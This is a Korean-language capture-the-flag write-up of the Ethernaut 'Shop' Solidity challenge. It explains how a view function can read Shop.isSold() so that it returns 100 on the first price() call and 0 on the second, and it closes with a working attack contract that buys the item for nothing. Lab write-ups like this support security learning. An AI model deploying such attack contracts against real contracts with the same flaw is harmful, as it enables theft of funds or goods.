

## 문제
### 지문
Can you get the item from the shop for less than the price asked?
Things that might help:
Shop expects to be used from a Buyer
Understanding restrictions of view functions
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBuyer {
  function price() external view returns (uint256);
}

contract Shop {
  uint256 public price = 100;
  bool public isSold;

  function buy() public {
    IBuyer _buyer = IBuyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
## 배경지식

---

`view` 함수는 상태를 변경하지 않겠다고 선언한 함수다. 외부 컨트랙트의 `view` 함수를 호출하면 컴파일러는 보통 `STATICCALL`을 사용하고, 이 컨텍스트 안에서 상태 변경을 시도하면 revert된다.
이 문제에서 공격자의 `price()`는 내부 상태 변수 값을 바꾸는 방식으로 동작을 바꿀 수 없다. Elevator 문제처럼 `bool` 값을 뒤집으면서 첫 호출과 두 번째 호출의 반환값을 다르게 만드는 방식은 막힌다.
하지만 `view`가 모든 외부 정보를 고정한다는 뜻은 아니다. 상태를 쓰지는 못해도 다른 컨트랙트의 현재 상태를 읽을 수는 있다. 즉, `price()` 안에서 `Shop.isSold()`를 읽고 그 값에 따라 다른 가격을 반환하는 것은 가능하다.

---

컨트랙트가 `msg.sender`를 인터페이스로 캐스팅해 함수를 호출하면, 실제 로직은 호출받는 컨트랙트가 결정한다. `IBuyer.price()`라는 타입은 반환 타입과 `view` 제약만 말해줄 뿐, 항상 같은 값을 반환해야 한다는 보장은 하지 않는다.
`Shop.buy()`는 같은 외부 함수 `price()`를 두 번 호출하면서, 두 호출 사이에 `isSold` 상태를 바꾼다. 공격자는 이 상태 변화를 관찰해서 첫 번째 호출에는 조건을 통과할 값을, 두 번째 호출에는 실제 저장될 낮은 값을 반환할 수 있다.
## 문제 코드 분석

---

먼저 구매자 컨트랙트로 취급되는 `msg.sender`를 보자.
```solidity
function buy() public {
  IBuyer _buyer = IBuyer(msg.sender);

  if (_buyer.price() >= price && !isSold) {
    isSold = true;
    price = _buyer.price();
  }
}
```
`buy()`는 `msg.sender`를 `IBuyer`로 캐스팅한 뒤 `_buyer.price()`를 호출한다. 따라서 EOA가 직접 호출하면 `price()` 함수가 없으므로 의미 있는 공격을 만들기 어렵고, 공격 컨트랙트를 배포해서 그 컨트랙트가 `buy()`를 호출해야 한다.
`Shop`은 외부 컨트랙트가 반환하는 값을 그대로 신뢰한다. `price()`가 이름상 가격을 알려주는 함수처럼 보이더라도, 실제 반환값은 공격자가 원하는 로직으로 정할 수 있다.

---

첫 번째 `price()` 호출은 조건 통과에 쓰인다.
```solidity
if (_buyer.price() >= price && !isSold) {
```
처음 상태는 `price = 100`, `isSold = false`다. 따라서 조건문을 통과하려면 첫 번째 `price()` 호출이 100 이상을 반환해야 한다.
여기서는 `isSold`가 아직 `false`이므로 공격자의 `price()`가 `Shop.isSold()`를 읽고 `100`을 반환하면 조건을 만족한다. 이 호출은 상태를 바꾸지 않고 읽기만 하므로 `view` 제약에도 걸리지 않는다.

---

두 번째 `price()` 호출은 상태 변경 이후에 실행된다.
```solidity
isSold = true;
price = _buyer.price();
```
조건을 통과하면 `Shop`은 먼저 `isSold`를 `true`로 바꾸고, 그 다음 다시 `_buyer.price()`를 호출해서 `price`에 저장한다.
이 순서 때문에 두 번째 호출에서 공격자의 `price()`는 첫 번째 호출과 다른 환경을 보게 된다. 이제 `Shop.isSold()`가 `true`이므로 `0`을 반환하게 만들 수 있고, 최종적으로 `Shop.price`는 `0`이 된다.
## 풀이
`Shop.buy()`는 `price()`를 두 번 호출하고, 두 호출 사이에 `isSold`를 `true`로 바꾼다. 공격 컨트랙트의 `price()`는 상태를 직접 수정하지 않고 `Shop.isSold()`만 읽는다.
첫 번째 호출에서는 `isSold == false`이므로 `100`을 반환해 조건을 통과한다. 이후 `Shop`이 `isSold = true`로 바꾼 뒤 두 번째로 `price()`를 호출하면, 공격 컨트랙트는 `0`을 반환한다. 그 결과 최종 가격은 `0`으로 내려간다.
처음에는 Elevator 문제처럼 공격 컨트랙트 안에 `bool` 상태 변수를 두고 호출마다 값을 뒤집는 방법을 생각할 수 있다. 하지만 `price()`가 `view`로 호출되기 때문에 상태 변경은 사용할 수 없다. 대신 이미 `Shop` 쪽에서 바뀌는 `isSold`를 읽으면 같은 효과를 만들 수 있다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
}

contract Attack {
    IShop shop;

    constructor(address _addr) {
        shop = IShop(_addr);
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint256) {
        if (shop.isSold() == false) return 100;
        else return 0;
    }
}
```

